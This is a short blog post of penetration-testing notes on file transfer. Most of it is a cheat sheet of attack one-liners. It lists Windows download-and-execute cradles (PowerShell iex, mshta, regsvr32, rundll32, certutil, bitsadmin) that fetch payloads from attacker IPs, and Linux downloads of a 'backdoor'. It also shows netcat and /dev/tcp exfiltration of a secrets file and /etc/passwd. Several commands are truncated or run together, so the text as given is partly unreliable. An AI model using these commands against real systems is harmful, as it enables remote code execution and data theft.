




Hi everyone, it's been a while since I've written on this blog. In this article I set out to share some notes I took while pentesting. These notes are for the transfer of files between workstations. The first time I will explain briefly what is happening. This file transfer technique is used in penetration testing. An attacker can transmit certain malicious files to a server, or leak important data. Below you will see some methods to do this.
Build and HTTP Server with python2/3
python -m SimpleHTTPServer 1337The above command will start the HTTP service in the current directory, the port is 1337.
python3 -m http.server 1337Build and HTTP Server with PHP
When the PHP version is greater than 5.4, you can use PHP to start the HTTP service in the current directory, the port is 1337.
php -S 0.0.0.0:1337Build and HTTP Server with RUBY
ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 1337, :DocumentRoot => Dir.pwdruby -run -e httpd . -p 1337Build and HTTP Server with PERL
perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>1337); $s->mountperl -MIO::All -e 'io(":8080")->fork->accept->(sub { $_[0] < io(-x $1 +? "./$1 |"Build and HTTP Server with BUSYBOX
busybox httpd -f -p 8000Download Files from HTTP server
For Windows we have:
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://192.xxx.xxx.x/payload.ps1')|iex"mshta vbscript:Close(Execute("GetObject(""script:http://192.xxx.xxx.x/payload.sct"")"))rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://192.xxx.xxx.x/payload.sct");window.close();wmic os get /format:"https://192.xxx.xxx.x/payload.xsl"regsvr32 /u /n /s /i:http://192.xxx.xxx.x/payload.sct scrobj.dllcertutil -urlcache -split -f http://192.xxx.xxx.x/payload payload bitsadmin /transfer n http://1.2.3.4/5.exeNow for Linux we have:
curl http://1.2.3.4/backdoorwget http://1.2.3.4/backdoorawk 'BEGIN {
RS = ORS = "\r\n"
HTTPCon = "/inet/tcp/0/127.0.0.1/1337"
print "GET /your_file_here HTTP/1.1\r\nConnection: close\r\n" |& HTTPCon
while (HTTPCon |& getline > 0)
print $0
close(HTTPCon)
}'HTTP server with PUT request in ngix
mkdir -p /var/www/upload/ #Create directory
chown www-data:www-data /var/www/upload/ # Modify the user and group to which the
cd /etc/nginx/sites-available # Enter the nginx virtual host directory
# Write configuration to file_upload file
cat < file_upload
server {
listen 8001 default_server;
server_name kali;
location / {
root / var / www / upload;
dav_methods PUT;
}
}
EOF
#Write completed
cd ../sites-enable # Enter the nginx virtual host startup directory
ln -s /etc/nginx/sites-available/file_upload file_upload # Enable file_upload vir
systemctl start nginx # start Nginx File receiving end:
nc -lvnp 1337 > secret.txt File sender:
cat secret.txt > /dev/tcp/ip/portListen port 1337
nc -vlnp 1337 | sed "s/ //g" | base64 -d
whois -h 127.0.0.1 -p 1337 `cat /etc/passwd | base64`
Wait few second and all info will be displayed

File transfer with netcat
Accept end
nc -l -p 1337 > 1.txtSending end
cat 1.txt | nc -l -p 1337nc 10.10.10.200 1337 < 1.txtUpload file with HTTP PUT server
curl --upload-file secret.txt http://ip:port/wget --method=PUT --post-file=secret.txt http://ip:portI hope you like this article about File Transfer and sorry for my bad English, I am not a native speaker (Happy Hack)
References!!
http://sweetme.at/2013/08/28/simple-local-http-server-with-ruby/